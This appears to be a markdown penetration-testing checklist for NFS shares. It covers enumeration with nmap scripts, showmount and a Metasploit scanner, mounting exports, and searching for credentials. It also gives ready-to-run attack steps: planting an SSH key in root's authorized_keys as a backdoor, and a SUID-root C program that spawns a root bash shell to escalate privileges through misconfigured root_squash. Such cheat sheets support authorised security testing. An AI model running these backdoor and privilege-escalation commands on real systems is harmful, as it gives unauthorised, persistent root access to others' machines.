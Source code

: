 # NFS Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating NFS (port 2049), I realistically expect to find:

- [ ] List of exported shares available for mounting
- [ ] Ability to mount shared directories locally
- [ ] Read access to sensitive files (configs, backups, credential dumps)
- [ ] Write access allowing backdoor installation (e.g., adding SSH keys)
- [ ] Insecure permissions enabling upload of SUID binaries for privilege escalation
- [ ] Misconfigured root_squash options allowing root access on target
- [ ] Information about network shares that expands the attack surface

---

## ✅ NFS Pentest Checklist

- [ ] **Connect to the Target**
  - Make sure the port is open and accessible.

- [ ] **Scan Using Nmap**
    ```bash
    nmap -p 2049 --script=nfs* <IP>
    ```

- [ ] **Check Available Shares**
    ```bash
    showmount -e <IP>
    cat /etc/exports
    ```

- [ ] **Check If You Can Mount**
    ```bash
    mount -t nfs [-o vers=2] <IP>:<remote_folder> <local_folder> -o nolock
    umount <local_folder>
    ```

- [ ] **General Info About RPC / NFS**
    ```bash
    nfs-ls
    nfs-showmount
    nfs-statfs
    ```

- [ ] **Check for Passwords in Files on Mounted Drives**
  - Look for backups, configs, scripts containing credentials.

- [ ] **Mount and Upload SSH Keys for RCE**
    ```bash
    ssh-keygen
    mount -t nfs <IP>:/<DIR> /mnt/myroot
    cat .ssh/id_rsa.pub >> /mnt/myroot/root/.ssh/authorized_keys
    umount /mnt/myroot
    ```

---

## ✅ NFS Useful Commands

- **Nmap Scripts**
    ```bash
    nmap -p 2049 --script=nfs* <IP>
    nfs-ls
    nfs-showmount
    nfs-statfs
    ```

- **Metasploit Scanner**
    ```bash
    use auxiliary/scanner/nfs/nfsmount
    ```

- **Checking Shares**
    ```bash
    showmount -e <IP>
    cat /etc/exports
    ```

- **Mounting Example**
    ```bash
    mkdir /mnt/myroot
    mount -t nfs [-o vers=2] <IP>:<remote_folder> /mnt/myroot -o nolock
    umount /mnt/myroot/
    ```

- **SSH Key Backdoor Setup**
    ```bash
    ssh-keygen
    mount -t nfs <IP>:/<DIR> /mnt/myroot
    cat .ssh/id_rsa.pub >> /mnt/myroot/root/.ssh/authorized_keys
    umount /mnt/myroot/
    ```

- **Example Exploit - Attacker Side**
    ```bash
    mkdir <DIRECTORY>
    mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
    cd <DIRECTORY>
    echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
    gcc pwn.c -o pwn
    chmod +s pwn
    ```

- **Example Exploit - Victim Side**
    ```bash
    cd <SHARE>
    ./pwn
    ```
